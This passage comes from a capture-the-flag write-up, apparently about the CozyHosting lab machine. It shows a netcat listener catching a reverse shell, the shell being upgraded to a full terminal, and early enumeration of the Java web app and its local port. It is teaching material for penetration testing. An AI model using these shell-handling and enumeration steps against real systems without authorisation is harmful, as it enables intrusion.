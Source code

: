 
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.230 51348
    bash: cannot set terminal process group (1063): Inappropriate ioctl for device
    bash: no job control in this shell
    app@cozyhosting:/app$ 



I'll upgrade my shell using [the script
technique](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    app@cozyhosting:/app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    app@cozyhosting:/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    app@cozyhosting:/app$



## Shell as josh

### Enumeration

#### Web Application

The web application is running out of `/app`, which container a Java Jar
file:



    app@cozyhosting:/app$ ls
    cloudhosting-0.0.1.jar



That Jar is running:



    app@cozyhosting:/app$ ps auxww | grep cloudhosting                   
    app         1063  0.7 14.9 3672520 599428 ?      Ssl  Feb26   7:37 /usr/bin/java -jar cloudhosting-0.0.1.jar



That process is listening on 8080:



    app@cozyhosting:/app$ netstat -tnlp | grep 1063
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      1063/java 
